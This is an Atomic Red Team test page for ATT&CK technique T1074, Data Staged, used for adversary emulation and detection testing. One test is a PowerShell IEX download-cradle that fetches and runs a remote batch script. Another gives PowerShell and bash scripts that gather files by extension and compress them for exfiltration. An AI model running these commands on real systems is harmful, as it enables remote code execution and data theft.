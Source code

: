 # T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as Data Compressed or Data Encrypted.

Interactive command shells may be used, and common functionality within cmd and bash may be used to copy data into a staging location.

Detection: Processes that appear to be reading files from disparate locations and writing them to the same directory or file may be an indication of data being staged, especially if they are suspected of performing encryption or compression on the files.

Monitor processes and command-line arguments for actions that could be taken to collect and combine files. Remote access tools with built-in features may interact directly with the Windows API to gather and copy to a location. Data may also be acquired and staged through Windows system management tools such as Windows Management Instrumentation and PowerShell.

Platforms: Linux, macOS, Windows

Data Sources: File monitoring, Process monitoring, Process command-line parameters</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)
- [Atomic Test #2 - Collect all files extensions and stage within a compressed directory](#atomic-test-1---compress-all-file-types)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/Discovery.bat')" > c:\windows\pi.log
```
<br/>
<hr/>
<br/>

## Atomic Test #2 - Collect and Compress all file types
Collect all specified file extensions recursively from a specified file path on the target machine. All located files are copied into a temporary location before being compressed.

**Supported Platforms:**
- Windows
- Linux


#### Run it with `powershell`!
Note:
- ```{{ path }}```: requires a default path to start recursive search from
- ```{{ extension }}```: requires a file extension to search for

```
$FolderPath = '{{ path }}'
$FileExtension = '{{ extension }}'

New-Item -ItemType directory -Path C:\temp\staging

function TestPath()  
{ 
    $FileExists = Test-Path $FolderPath 
    If ($FileExists -eq $True)  
    { 
        Return $true 
    } 
    Else  
    { 
        Return $false 
    } 
}

function ZipFiles()
{
   Add-Type -Assembly System.IO.Compression.FileSystem
   $compressionLevel = [System.IO.Compression.CompressionLevel]::Optimal
   [System.IO.Compression.ZipFile]::CreateFromDirectory("C:\temp\staging",
        "C:\temp\staging.zip", $compressionLevel, $false)
}
 
$Result = (TestPath($FolderPath)); 
 
If ($Result) 
{ 
    $Dir = get-childitem $FolderPath -Recurse -ErrorAction Ignore 
    $List = $Dir | where {$_.extension -eq $FileExtension} 
    $List | Copy-Item -Destination C:\temp\staging\ -ErrorAction Ignore
} 
else 
{ 
    "Folder path is incorrect." 
}

ZipFiles

Remove-Item -Recurse -Force C:\temp\staging

```

#### Run it with `bash`!
Note:
- ```{{ path }}```: requires a default path to start recursive search from
- ```{{ extension }}```: requires a file extension to search for

```
mkdir -p /tmp/staging
find {{ path }} -name '*{{ extension }}' -exec cp -prv '{}' '/tmp/staging' ';'
tar -zcvf /tmp/staging.tar.gz /tmp/staging/
rm -rf /tmp/staging
```
<br/>
